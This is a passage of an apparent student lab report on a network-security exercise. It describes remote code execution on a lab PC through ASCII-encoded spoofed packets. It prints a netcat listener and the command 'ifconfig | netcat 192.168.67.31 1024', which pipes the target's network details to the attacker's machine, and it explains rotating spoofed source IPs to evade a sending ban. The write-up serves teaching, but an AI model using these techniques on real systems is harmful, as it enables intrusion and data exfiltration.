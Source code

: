 \documentclass{article}
\begin{document}
The ID \& acknowledge sequence values were left out because they are not required explicitly and tgn would fill in default values automatically. After experimenting with this functionality, we discovered that IP's would be banned from sending for 120 seconds by the receiving PC in case they sent more than 10 consecutive packets to the computer.

\subsection*{Rep. 3d - Running ifconfig and transferring data to the Tom-PC}
First, netcat was set up to listen on port 1024 on the Tom-computer using the command:

\begin{verbatim}
netcat -l 1024
\end{verbatim}

The command the needed to be executed on the other computer is:

\begin{verbatim}
ifconfig | netcat 192.168.67.31 1024
\end{verbatim}

Using the capabilities explored in the previous section it is now possible to execute remote code. The code was pieced together by using the decimal values of the ASCII characters. A bash script was written that executes the command for each character. A carriage return was included at the end to execute the command. In order to avoid being banned by Jerry's computer, the destination IPs, and therefore the spoofed source IPs were alternated for each line. (see the file netcat\_ifconfig.sh in the directory workfiles/Ex3)

\newpage
After running the script the ifconfig information of Jerry's computer is sent and displayed on Tom's Terminal:
\end{document}

